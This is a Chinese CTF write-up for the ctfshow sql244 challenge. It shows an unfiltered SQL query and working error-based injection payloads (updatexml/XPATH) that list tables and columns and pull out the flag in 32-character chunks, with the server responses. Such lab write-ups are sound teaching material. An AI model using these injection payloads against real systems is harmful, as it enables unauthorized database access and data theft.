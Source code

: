 # ctfshow-sql244



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
 //备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";

```



 返回逻辑 

```
  //无过滤
```





```mysql
无过滤的报错注入，随便选一种方式就可以了

/api
get传参

因为xpath的报错只有32位，所以需要截取

?id=' or updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),1),1)-- -


{"code":0,"msg":"XPATH syntax error: 'banlist,ctfshow_flag,ctfshow_use'","count":1,"data":[]}
少了一位应该是ctfshow_user
banlist,ctfshow_flag,ctfshow_user


?id=' or updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flag'),1),1)-- -

{"code":0,"msg":"XPATH syntax error: 'id,flag,info1'","count":1,"data":[]}
id,flag,info1


?id=' or updatexml(1,concat(1,substr((select group_concat(flag) from ctfshow_flag),1,32),1),1)-- -

{"code":0,"msg":"XPATH syntax error: 'ctfshow{36331a9b-8760-4efb-b313-'","count":1,"data":[]}
ctfshow{36331a9b-8760-4efb-b313-

' or updatexml(1,concat(1,substr((select group_concat(flag) from ctfshow_flag),20,32),1),1)-- -
{"code":0,"msg":"XPATH syntax error: 'efb-b313-2879632816ca}1'","count":1,"data":[]}
efb-b313-2879632816ca}


ctfshow{36331a9b-8760-4efb-b313-2879632816ca}
```























